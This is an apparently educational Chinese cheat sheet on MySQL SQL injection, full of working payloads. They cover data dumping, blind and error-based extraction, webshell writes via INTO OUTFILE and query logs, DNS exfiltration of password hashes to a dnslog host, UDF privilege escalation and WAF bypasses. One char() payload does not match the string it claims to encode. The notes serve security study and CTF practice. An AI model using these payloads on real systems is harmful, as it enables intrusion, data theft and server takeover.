# 漏洞介绍

Sql注入漏洞是指服务器在处理Sql语句时**错误地拼接用户提交的参数**，**打破了原有的Sql执行逻辑**，导致攻击者可部分或完全**掌握Sql语句执行效果**的一类安全问题。

简单的例子

假设后端Sql代码

```php
$sql="select * from users where id='$id';"
```

用户提交

```php
?id=1' and 1=1 #
```

拼接后的sql语句

```mysql
select * from users where id='1' and 1=1 #'
```

`1'`将第一个`'`闭合，`#`将第二个`'`注释掉，所以要进行注入，只需要将`and 1=1`部分替换为其他sql语句即可。

> 其实分析`sqlmap`的注入也是如此，注入语句由`prefix`，`payload`和`suffix`组成

图来源https://www.freebuf.com/column/161797.html


# 漏洞危害

- 获得数据库中的敏感信息，如手机号，身份证，邮箱，家庭地址等

- 获得网站后台账号

  ```
  万能密码？（这年头还有吗🤔，还是有的。。）
  拿到密码，通常需要逆向解密或者彩虹表破解
  通过sql语句创建后台账号                    
  ```

- 任意读取文件

- Getshell

- 提权


# 如何挖掘

**一切与数据库有交互的地方**都可能是**注入点**，取决于后端从HTTP请求报文中提取了什么数据并拼接到sql语句中

**是否存在sql注入**

判断闭合类型，通常使用报错，布尔，延时，数学运算等手法来检测

```
'
"
\
+1，-1
报错函数
延时函数
```

[实战中SQL注入最容易出现的地方_只有选择框和日期框,会出现sql注入情况吗-CSDN博客](https://blog.csdn.net/qq_39997096/article/details/109764488)


# 漏洞利用

## 信息收集



### 站库分离

> Web站点和数据库不在同一个主机上，所以不能通过数据库对Web站点进行读写操作

**攻击手法**

- 读取账密，转到web服务器上打
- 信息收集，数据库服务器是否在内网中

**站库分离的判断方法**

- 通用方法

  读取配置文件，判断IP

- Mysql

  ```mysql
  select @@hostname; //服务端主机名称 
  select * from information_schema.PROCESSLIST; //客户端主机名称和端口
  ```
  
    > Windows连接格式：主机名:Port
    >
    > Linux连接格式：IP:Port
    >
    > 本地连接格式：localhost:Port
  
  
  
  ```
  select user();
  ```
  
  > 如果不是localhost，大概率是站库分离。
  
    


### 数据库类型


### 各种信息

```mysql
# ifnull(@@secure_file_priv,0) secure_file_priv为空时返回0,不为空时返回其值
SELECT concat_ws(0x0a,
ifnull(@@secure_file_priv,0),
concat_ws(0xefbc8c, @@version, @@version_compile_os, @@version_compile_machine, @@version_comment),
concat_ws(0xefbc8c, @@hostname, @@port),
concat_ws(0xefbc8c, user(), database()),
concat_ws(0xefbc8c, @@datadir, @@plugin_dir, @@tmpdir, @@basedir)
)


# 结果
0
10.5.8-MariaDB-3，debian-linux-gnu，x86_64，Debian buildd-unstable
kali，3306
root@localhost
/var/lib/mysql/，/usr/lib/mysql/plugin/，/tmp，/usr
```

```mysql
# 得到后端执行的sql语句
select * from test.users where id=1 union SELECT (select INFO FROM INFORMATION_SCHEMA.PROCESSLIST WHERE INFO LIKE '%673245283%' LIMIT
 1),2,3;
```




## Mysql攻击手法

### admin登入

- 万能密码

  ```php
  # 后端代码Demo
  $query = "SELECT * FROM manage WHERE user='$user' and passwd='$passwd'";
  if(mysql_query($query))
  {
      echo "登陆成功";
  }
  ```

  通过布尔运算让where恒为真

  

- 注册覆盖

  > admin (有个空格)或者 (有个空格)admin
  >
  > 原理：用户名字段长度>5，所以可以添加空格，而sql语句执行时会将空格忽略。
  
  
  
- 联合查询构造临时用户

  `[GXYCTF2019]BabySQli`

  ```php
  # 后端代码Demo
  $query = "SELECT * FROM manage WHERE user='$user'";
  $result = mysql_query($query) or die('SQL语句有误：'.mysql_error());
  $users = mysql_fetch_array($result);
  
  if (!mysql_num_rows($result)) {  
  	echo "<Script language=JavaScript>alert('抱歉，用户名或者密码错误。');history.back();</Script>";
  	exit;
  }
  else{
  	$passwords=$users['password'];
  	if(md5($password)<>$passwords){
  	echo "<Script language=JavaScript>alert('抱歉，用户名或者密码错误。');history.back();</Script>";
  	exit;	
  }
  echo "登陆成功";
  ```
  
  ```mysql
  username=admin' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b' limit 1,2--+
  
  passwd=c4ca4238a0b923820dcc509a6f75849b
  
  MD5(1)=c4ca4238a0b923820dcc509a6f75849b
  ```
  
  
  
  


### 联合查询注入

##### 原理

sql语句为`select`,页面有回显查询结果。

```php
$sql="SELECT * FROM users where id=$id ";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
echo 'Your Login name:'. $row['username'];
echo 'Your Password:' .$row['password'];
```

##### payload

**先判断表中的列数**

```sql
order by x
union select null,null.....
```

这里使用null是因为需要匹配数据格式，而null是可以匹配任意数据格式的

**再判断哪一列是输出点**

```
每个位置输出不同的值来判断
```

**最后进行注入**

```mysql
联合查询，获取库名
?id=-1"union select 1,2,group_concat(schema_name) from information_schema.schemata#

联合查询，获取表名 
?id=-1"union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='已知库名'#

?id=-1"union select 1,2,group_concat(table_name) from mysql.innodb_table_stats where database_name='已知库名'#


联合查询，获取字段名
?id=-1"union select 1,2,group_concat(column_name) from information_schema.columns where table_name='已知表名'#


联合查询，获取字段值
?id=-1"union select 1,2,group_concat(字段1，字段2...) from 已知表名#
```

> 注意：
>
> 因为后端查询语句可能只拿第一行查询结果如`$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";`，所以需要构造一个不存在的值如-1，使得联合查询的结果成为第一行；
>
> 要查的表的名称(这个表是不是在现在使用的数据库中，没有的话表名=数据库.表名)


### 堆叠注入

##### 原理

> 后端使用的查询函数为`mysqli_multi_query()` ，支持多条语句查询
>
> 而不是`mysqli_query()` ，仅支持一条语句查询


##### 局限性

- 并不是每一个环境下都可以执行，可能受到 API 或者数据库引擎的影响

- 无回显：在 Web 中代码通常只返回一个查询结果，因此，堆叠注入第二个语句产生错误或者结果只能被忽略

  **解决方法**：可以通过先将内容插入到数据库中，然后再通过查询查出来


##### payload

```php
?id=1';sql语句;--+
```

可以任意执行sql语句，危害很大


###### 配合handle绕过关键字

[【MySQL】MySQL 之 handler 的详细使用及说明](https://blog.csdn.net/qq_43427482/article/details/109898934)

```mysql
handler 表名  open ; handler 表名 read first; #打开表；读取第一条数据
handler 表名 read next;#与上一条语句一起用，读取下一条即第二条数据
```


###### 配合预编译语句绕过

使用格式

```mysql
set @tn = 'hahaha';  //存储表名
set @sql = concat('select * from ', @tn);  //存储SQL语句

prepare query from @sql;   //预定义SQL语句

execute query;  //执行预定义SQL语句

(DEALLOCATE || DROP) prepare sqla;  //删除预定义SQL语句
```

##### 例题

[SUCTF 2018]MultiSQL

```mysql
set @sql=select '<?php eval($_POST[khaz]);?>' into outfile '/var/www/html/favicon/shell3.php';prepare name from @sql;execute name;
```

转换脚本

```python
a = "select '<?php eval($_POST[khaz]);?>' into outfile '/var/www/html/favicon/shell3.php'"
b = []
for i in a:
    b.append(str(ord(i)))
c=','.join(b)
res = 'char({})'.format(c)
print(res)
```

payload

```mysql
set @sql=char(117,112,100,97,116,101,32,115,99,111,114,101,32,115,101,116,32,108,105,115,116,101,110,61,50,48,48);prepare query from @sql;execute query;
```


### 报错注入

##### 原理

**使用`mysql_error()`函数，可以返回上一个Mysql操作产生的文本错误信息。**

```php
<?php
$con = mysql_connect("localhost","wrong_user","wrong_pwd");
if (!$con)
{
  die(mysql_error());
}
>>
Access denied for user 'wrong_user'@'localhost'
(using password: YES)
```


##### 报错函数

最常用的

```mysql
# Xpat语法错误，报错信息是有长度限制的，最大长度限制32位,配合substr()等截取字符串函数使用
select extractvalue(1,concat(0x7e,(select user()),0x7e));
select updatexml(1,concat(0x7e,(select user()),0x7e),1);
```



其他[MySQL报错注入 ](https://hatboy.github.io/2018/08/28/MySQL报错注入/)


##### payload

```mysql
原型：
?id=1"or(updatexml(1,concat(0x7e,(),0x7e),1))--+

爆库:
?id=1"or(updatexml(1,concat(0x7e,(select(substr(group_concat(schema_name),1,32))from (information_schema.schemata)),0x7e),1))--+

 
爆表：
id=1"or(updatexml(1,concat(0x7e,(select(substr(group_concat(table_name),1,32))from (information_schema.tables)where(table_schema='已知库名')),0x7e),1))--+


爆列名：
id=1"or(updatexml(1,concat(0x7e,(select( substr(group_concat(column_name),1,32)))from(information_schema.columns)where(table_name='flag'))),1))--+


爆字段值
id=1"or(updatexml(1,concat(0x7e,(select( substr(group_concat(real_flag_1s_here),1,6)))from(users))),1))--+
```


### 二次注入--存储型注入

**原理**


常见转义函数

```php
addslashes()
mysql_escape_string()
```

以`sql-labs Less-24`为例

创建用户

```php
$username=  mysql_escape_string($_POST['username']) ;
$pass= mysql_escape_string($_POST['password']);
$re_pass= mysql_escape_string($_POST['re_password']);

$sql = "insert into users ( username, password) values(\"$username\", \"$pass\")";
```

使用不恰当的函数`mysql_escape_string`，功能为在 MySQL 中具有特殊含义的字符（如单引号、双引号、反斜杠和空字节）前添加反斜杠字符。所以脏数据还是进入到了数据库中。

修改密码处

```mysql
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
```

直接将脏数据取出并拼接到sql语句中，造成了sql注入。


**常见场景**

将保存的脏数据从数据库中取出，再次进行sql操作的场景。

```
修改密码，修改订单等修改已保存信息的地方
注册用户名处
```


**例题**

[CISCN2019 华北赛区 Day1 Web5]CyberPunk

```php
$address = addslashes($_POST["address"]);#可控变量

$sql = "insert into `user` ( `user_name`, `address`, `phone`) values( ?, ?, ?)";#将$_POST["address"]保存到数据库中

$row = $fetch->fetch_assoc();#$row保存sql语句查询结果

$sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];#调用了查询结果
```

分析上面两条语句，对可控参数address只进行了转义处理，就保存到数据库中。

并且在update中引用了`$row['address']`，所以在这里存在二次注入。

可以看到列名为old_address，在进行修改时，会将旧地址保存下来，所以我们只要在第一次修改时，在address处注入恶意代码，第二次修改查询旧地址时就会执行恶意代码。

payload

```mysql
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,20)),0x7e),1)# 
```


### 盲注--无回显注入

#### 布尔盲注

页面无数据回显，但是有两种返回状态，poc如下

```mysql
?id=1' and 1=1 --+ 	# True
?id=1' and 1=2 --+ 	# False
```

payload

```mysql
?id=1' and 1=子查询 --+  
# 子查询=字符串截取+比较
```

| 逻辑连接符 |  payload  |
| :--------: | :-------: |
|     或     | or ，\|\| |
|    异或    |  xor，^   |
| 按位与/或  |   &，\|   |

字符串截取

```mysql
# 从start位置开始,截取len个字符
substr(string,start,len)
mid(string,start,len)

# 从左/右截取len个字符
left(string,len)
right(string,len)
```

比较

```mysql
like binary 0x25{}{}25
```



> 因为大小写不敏感，所以要用`binary`
>
> BINARY将16进制转化为字符串

语法

| like | 正则 |
| :--: | :--: |
|  _   |  .   |
|  %   |  .*  |
|  []  |  []  |
| [^]  | [^]  |

```
regexp "^a"
regexp "^ab"
```


#### 时间盲注

时间盲注就是**在布尔盲注上加了延迟时间函数sleep()**,用在True和False回显难以区分时,通过页面的响应时间来判断布尔逻辑的正确与否。

**payload**

```mysql
if(布尔,A,B)与三目运算符逻辑一样,加上sleep函数

sleep(if(布尔,A,B))布尔正确,延迟A秒,布尔错误,延迟B秒

或者 if(布尔,1,sleep(x))布尔正确,无延迟,布尔错误,延迟x秒
```


**其他能造成延时效果的语句**

```mysql
# 通过执行多次命令形成延时
benchmark(执行次数,sql语句)

# 查询一些数据量比较大的表做笛卡尔集运算，导致查询缓慢
select * from tab1 cross join tab2;
select * from tab1,tab2;
```


### DNS外带注入

##### 原理

1. MySQL Load_File()函数可以发起请求，使用Dnslog接收请求，获取数据；

2. windows下存在`UNC路径`

   > UNC是一种命名惯例, 主要用于在Microsoft Windows上指定和映射网络驱动器. UNC命名惯例最多被应用于在局域网中访问文件服务器或者打印机。
   
   ```
   \\xxxx\xx
   ```
   
      
   
      


##### 使用条件

- windows系统
- `secure_file_priv`为空

##### payload

```sql
union select 1,2,load_file(CONCAT('\\\\',(SELECT hex(passwd) FROM users WHERE username='admin' LIMIT 1),'.mysql.2fzz61.dnslog.cn\\abc'))

-- Hex编码的目的是减少干扰，域名有一定的规范，有些特殊字符不能带入
-- \\\\转义  →  \\
```


### SMB外带注入

http://www.moonslow.com/article/smb_sql_injection


### 宽字节注入

##### 原理

宽字节：如果一个字符的大小是两个字节的，该字符称为宽字节字符

`PHP`与`Mysql`之间的交互


将php的sql语句以`character_set_client`编码（也就是转为16进制数），再将16进制数以`character_set_connection`进行编码（也就是转换为url编码），然后以内部操作字符集进行url解码，最后以`character_set_results`编码输出结果。

```php
%df%27 浏览器url自动解码===> β' 转义===>β\'转为16进制===> 0xdf0x5c0x27 转换为url编码===> %df%5c%27 进行url解码(因为是GBK编码，%df和%5c结合为汉字)===> 運'
```

简单的说就是通过宽字节吃掉转义符，逃逸出单引号来进行闭合


##### 例题

`sql-lab less-32`

转义字符


设置编码集


sql语句，单引号闭合



```sql
?id=1%27
```


```php
?id=1%df%27
```


##### payload

```mysql
?id=1%df'
```

使用 Linux 自带的 iconv 命令进行 UTF 的编码转换

```shell
echo \'|iconv -f utf-8 -t utf-16
echo \'|iconv -f utf-8 -t utf-32
```



```mysql
?id=1�'
```


### order by 注入

https://www.cnblogs.com/1ink/p/15107674.html

- 知道列名的前提下使用

  ```
  ?order=if(表达式,id,username)
  ```

- 不知道列名

  ```
  ?order=if(表达式,1,(select id from information_schema.tables))
  ```

  


### Getshell

##### 写文件

###### 条件

- 高权限

  ```mysql
select user, file_priv from mysql.user; 
  ```
  
  

- 知道网站的绝对路径

- `secure_fil_priv`

  ```mysql
  select @@secure_file_priv;
  show global variables like '%secure_file_priv%'; # show语句要堆叠注入和回显
  ```


###### payload

**基于联合查询**

```mysql
select *from users where id=1 union select 1,'<?php phpinfo();?>',3 into outfile 'C:\info.php';

select *from users where id=1 union select 1,'<?php phpinfo();?>',3 into  dumpfile 'C:\info2.php';
```

`outfile`和`dumpfile`的区别

- `outfile`导出数据支持多行，`dumpfile`只支持一行
- `outfile`会对数据进行转义，`dumpfile`不会

所以使用`into dumpfile`这个函数来写入二进制文件




**非联合查询**

```mysql
select *from users where id=1 into outfile 'C:\info.php' fields terminated by '<?php phpinfo();?>';

select *from users where id=1 into outfile 'C:\info2.php' lines terminated by '<?php phpinfo();?>';
```




##### 写入日志文件

```mysql
# --查看配置，日志是否开启，和mysql默认log地址(记下原地址方便恢复)
show variables like '%general%';

set global general_log = on;

set global general_log_file = 'e:\info.php'; # 这里日志创建权限要低一些，不能在c盘创建

select '<?php phpinfo();?>';

--结束后，痕迹清理
```

日志慢查询

From：https://wiki.wgpsec.org/knowledge/web/mysql-write-shell.html

> 为什么要用慢查询写呢？因为开启日志监测后文件会很大，网站访问量大的话我们写的shell会出错

```mysql
show variables like '%slow_query_log%';		--查看慢查询信息
set global slow_query_log=1;				--启用慢查询日志(默认禁用)
set global slow_query_log_file='C:\\phpStudy\\WWW\\shell.php';	--修改日志文件路径

show global variables like '%long_query_time%';
--查看默认时间值，当sql语句执行时间超过该值才会被计入日志中，默认10秒

select '<?php @eval($_POST[abc]);?>' or sleep(@@long_query_time+1);	--写shell到慢查询日志
```




##### sqlmap  --os-shell

- 大致流程

  ```
  获取目标信息→使用lines terminated by将具有文件上传的🐎上传到网站→逐级目录访问找到🐎
  
  →通过该🐎上传真正的命令🐎→测试命令🐎能否执行→删除上传的两个🐎
  ```

- 文件上传🐎：form表单


- php命令马：获得`disable_function`，遍历所有代码执行，命令执行函数，判断哪一个不在`disable_function`。


### 读取文件

##### `load_file`

**注意：转义字符**

```mysql
select load_file('e:\test.txt'); # \t 错误路径
select load_file('e:\\test.txt');# 正确
select load_file(0x653A5C746573742E747874);# 支持十六进制
select load_file(char(101,58,92,116,101,115,116,46,116,120,116));# 支持char函数
```



##### `load data `

```mysql
create table user(cmd text)
load data infile 'e:/test.txt' into table user;
select * from user;
```




### mysqldump--数据库导出时的RCE

**shell**下执行

```shell
mysqldump -uroot -proot --all-databases > file_path  # 导出所有数据库
mysqldump -uroot -proot --databases db1 --tables a1 a2  > /file_path # 导出db1中的a1、a2表
```

导出的文本内容

```
创建数据库判断语句-删除表-创建表-锁表-禁用索引-插入数据-启用索引-解锁表
```



**例题**

CISCN2023初赛--dumpit

关键代码

```php
$black = ';`*#^$&|';  #黑名单

$db=$_GET['db'];
$t2d=$_GET['table_2_dump'];
$randstr = md5(time());

$dump='mariadb-dump '.$db.' '.$t2d.' >./log/'.$randstr.'.log';
system($dump);
```

db和table都可控，过滤不严谨，并且直接拼接到命令中，造成RCE

payload

```http
?db=ctf&table_2_dump=flag2 %0d%0a 命令
```


### 提权

**UDF提权**

> UDF（User Define Function）自定义函数，是数据库功能的一种扩展。用户通过自定义函数可以实现在 MySQL 中无法方便实现的功能，其添加的新函数都可以在 SQL 语句中调用，就像调用本机函数 version () 等方便。

UDF制作：[Mysql_UDF_BackDoor开发实践 - 程序代码学习(Learning Program) - T00ls | 低调求发展 - 潜心习安全](https://www.t00ls.com/thread-46107-1-1.html)

UDF提权流程

工具：[tools/大马/udf.php at master · echohun/tools (github.com)](https://github.com/echohun/tools/blob/master/大马/udf.php)

```bash
# 找到mysql的插件目录(安装目录下的lib/plugin/)
show variables like '%plugin%'; # 返回插件目录
select @@basedir; # 返回安装目录

# 写入动态链接库
sqlmap写入
手动十六进制写入

# 创建自定义函数并调用命令
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll'; # 创建sys_eval函数
select sys_eval('whoami'); # 执行whoami命令

# 删除自定义函数
drop function sys_eval;
```

**MOF提权**

- Windows Server 2003 
- C:/Windows/system32/wbem/mof/ 目录下的 mof 文件每 隔一段时间（几秒钟左右）都会被系统执行


# Mysql绕过补充

### 通用绕过

- 大小写绕过

  修复：正则`/i`

- 双写绕过（waf将关键字替换为空，且次数为1）

  ```mysql
  uniunionon
  ```
  
  修复：正则`/m`
  


### 注释符绕过

```mysql
# 手动闭合
$sql="select * from users where id='$id';"

$id=1' and '1'='2

select * from users where id='1' and '1'='2';
```


### 空格绕过

- `%0a`

- `%0d%0a`

- `/**/`

- 括号绕过

  > 在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。
  
  

### 引号绕过

#### 不让用单引号

可以用十六进制代替

```mysql
where(table_name='users') → where(table_name=0x7573657273)
```



#### 转义了单引号

宽字节注入，二次注入


### 字符串连接函数

```mysql
concat("str1", "," ,"str2")

concat_ws("," , "str1" , "str2")

group_concat("str1", "," ,"str2")
```


### select绕过

- 已知表名可以用`handle`


- 版本>=8.0

  [mysql 8.0.21以上版本的新特性](https://blog.csdn.net/rfrder/article/details/118726022)

- 在对当前表的列名注入时，可以直接写字段名，而无需`select 该字段 from 该表`

  

### 逗号绕过

```mysql
substr(databse(),1,1) 等价于 substr(databse() from 1 for 1)
```

```mysql
select 1,2,3; 等价于 select * from (select 1)a join (select 2)b join (select 3)c;
```


